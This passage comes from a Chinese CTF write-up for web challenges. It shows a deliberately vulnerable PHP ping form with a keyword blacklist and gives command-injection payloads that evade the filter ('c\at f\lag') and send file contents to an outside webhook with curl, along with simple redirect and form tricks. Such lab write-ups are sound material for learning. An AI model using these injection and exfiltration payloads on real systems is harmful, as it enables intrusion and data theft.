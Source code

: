     <form action="index.php" method="POST">
    <input name="ip" type="text" placeholder="Enter IP" /><br />
    <input type="submit" value="Submit" />
    </form>

    <?php
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['ip'])) {
        $waf = array("&", "|", ";", "`", ">", "\t", "\r", "\n", "cat", "flag");
        foreach($waf as $banner){
            if(stripos($_POST['ip'], $banner) !== FALSE) die("Get Out of Here");
        }

        $result = shell_exec("ping -c 3 " . $_POST['ip']);
        echo "<pre>" . $result . "</pre>";
    }
    ?>
    ```
* 用 `c\at f\lag` 拿到 flag，有擋 `cat` `flag`
* payload : `$(curl https://webhook.site/8d972bfe-8675-4a35-b72f-47a0a8c7a187 -d "$(c\at f\lag)")`
* 非預期解：直接訪問 `http://140.110.112.78:30005/flag` 直接吐出 flag 了
* flag : `FLAG{C00001_U_Are_Talent_0f_She11111}`

## Web_Getting Started
### Redirect
> http://140.110.112.78:10203/

* 看原始碼可以看到目的是訪問 `http://140.110.112.78:10203/flag.php` 但是被 redirect 了
* 用 postman 送也沒用
* 直接用 curl 可以拿到 flag
* payload : `curl http://140.110.112.78:10203/flag.php`
* flag : `FLAG{balabalabalabalalalal}`

### Form
> http://140.110.112.78:10204/

* 看一下原始碼可以發現不讓我們送 post
* 直接用 postman 送 post，form data 給 pw=123
* flag : `FLAG{123456789}`

### Shell
> http://140.110.112.78:10210/

## Web Level 3
### youtube_viewer
> http://140.110.112.78:4007/

* command injection
* 比較有趣的一點是這題目有用 `'` 包著 curl，所以要用 `'` 包住外圍，否則會被當作字串執行
* payload : `'$(curl webhook -d "$(your)command")'`
* source code 
    ```php=
    <head>
    <link href="https://fonts.googleapis.com/css?family=IM+Fell+French+Canon+SC" rel="stylesheet">
    </head>
    <body style="background-color: #fefad0;font-family: 'IM Fell French Canon SC', serif;font-size:20px">
